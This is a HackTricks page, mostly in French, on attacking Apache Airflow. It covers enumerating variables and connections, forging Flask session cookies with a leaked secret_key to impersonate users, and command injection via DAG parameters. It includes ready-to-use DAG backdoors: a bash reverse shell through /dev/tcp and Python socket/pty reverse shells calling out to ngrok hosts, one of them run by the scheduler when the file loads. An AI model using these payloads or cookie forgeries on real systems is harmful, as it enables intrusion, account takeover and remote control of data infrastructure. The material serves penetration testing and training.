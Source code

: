 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) sert de plateforme pour **l'orchestration et la planification de pipelines de données ou de flux de travail**. Le terme "orchestration" dans le contexte des pipelines de données signifie le processus d'arrangement, de coordination et de gestion de flux de travail de données complexes provenant de diverses sources. Le but principal de ces pipelines de données orchestrés est de fournir des ensembles de données traitées et consommables. Ces ensembles de données sont largement utilisés par une myriade d'applications, y compris, mais sans s'y limiter, les outils d'intelligence d'affaires, les modèles de science des données et d'apprentissage automatique, qui sont tous fondamentaux au fonctionnement des applications de big data.

En gros, Apache Airflow vous permettra de **planifier l'exécution de code lorsque quelque chose** (événement, cron) **se produit**.

### Local Lab

#### Docker-Compose

Vous pouvez utiliser le **fichier de configuration docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) pour lancer un environnement docker apache airflow complet. (Si vous êtes sur MacOS, assurez-vous de donner au moins 6 Go de RAM à la VM docker).

#### Minikube

Une façon simple de **faire fonctionner apache airflow** est de l'exécuter **avec minikube** :
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuration d'Airflow

Airflow pourrait stocker des **informations sensibles** dans sa configuration ou vous pouvez trouver des configurations faibles en place :

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC d'Airflow

Avant de commencer à attaquer Airflow, vous devez comprendre **comment fonctionnent les permissions** :

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attaques

#### Énumération de la Console Web

Si vous avez **accès à la console web**, vous pourriez être en mesure d'accéder à certaines ou à toutes les informations suivantes :

* **Variables** (Des informations sensibles personnalisées peuvent être stockées ici)
* **Connexions** (Des informations sensibles personnalisées peuvent être stockées ici)
* Accédez-y dans `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Des informations sensibles comme le **`secret_key`** et des mots de passe peuvent être stockées ici)
* Liste des **utilisateurs et rôles**
* **Code de chaque DAG** (qui peut contenir des informations intéressantes)

#### Récupérer les Valeurs des Variables

Les variables peuvent être stockées dans Airflow afin que les **DAGs** puissent **accéder** à leurs valeurs. C'est similaire aux secrets d'autres plateformes. Si vous avez **suffisamment de permissions**, vous pouvez y accéder dans l'interface graphique à `http://<airflow>/variable/list/`.\
Airflow affichera par défaut la valeur de la variable dans l'interface graphique, cependant, selon [**ceci**](https://marclamberti.com/blog/variables-with-apache-airflow/), il est possible de définir une **liste de variables** dont la **valeur** apparaîtra sous forme de **astérisques** dans l'**interface graphique**.

![](<../../.gitbook/assets/image (164).png>)

Cependant, ces **valeurs** peuvent toujours être **récupérées** via **CLI** (vous devez avoir accès à la base de données), exécution de **DAG** arbitraire, **API** accédant au point de terminaison des variables (l'API doit être activée), et **même l'interface graphique elle-même !**\
Pour accéder à ces valeurs depuis l'interface graphique, il suffit de **sélectionner les variables** que vous souhaitez accéder et de **cliquer sur Actions -> Exporter**.\
Une autre façon est d'effectuer un **bruteforce** sur la **valeur cachée** en utilisant le **filtrage de recherche** jusqu'à ce que vous l'obteniez :

![](<../../.gitbook/assets/image (152).png>)

#### Escalade de Privilèges

Si la configuration **`expose_config`** est définie sur **True**, à partir du **rôle Utilisateur** et **au-dessus**, on peut **lire** la **configuration sur le web**. Dans cette configuration, le **`secret_key`** apparaît, ce qui signifie que tout utilisateur avec cette validité peut **créer son propre cookie signé pour usurper n'importe quel autre compte utilisateur**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE dans le worker Airflow)

Si vous avez **un accès en écriture** à l'endroit où les **DAGs sont sauvegardés**, vous pouvez simplement **en créer un** qui vous enverra un **reverse shell.**\
Notez que ce reverse shell sera exécuté à l'intérieur d'un **conteneur de worker airflow** :
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE dans le planificateur Airflow)

Si vous définissez quelque chose pour être **exécuté à la racine du code**, au moment de l'écriture de ce document, il sera **exécuté par le planificateur** après quelques secondes après l'avoir placé dans le dossier du DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Création de DAG

Si vous parvenez à **compromettre une machine à l'intérieur du cluster DAG**, vous pouvez créer de nouveaux **scripts DAG** dans le dossier `dags/` et ils seront **répliqués dans le reste des machines** à l'intérieur du cluster DAG.

#### Injection de Code DAG

Lorsque vous exécutez un DAG depuis l'interface graphique, vous pouvez **passer des arguments** à celui-ci.\
Par conséquent, si le DAG n'est pas correctement codé, il pourrait être **vulnérable à l'injection de commandes.**\
C'est ce qui s'est passé dans ce CVE : [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tout ce que vous devez savoir pour **commencer à chercher des injections de commandes dans les DAGs** est que les **paramètres** sont **accédés** avec le code **`dag_run.conf.get("param_name")`**.

De plus, la même vulnérabilité pourrait se produire avec des **variables** (notez qu'avec suffisamment de privilèges, vous pourriez **contrôler la valeur des variables** dans l'interface graphique). Les variables sont **accessibles avec** :
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
S'ils sont utilisés par exemple à l'intérieur d'une commande bash, vous pourriez effectuer une injection de commande.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
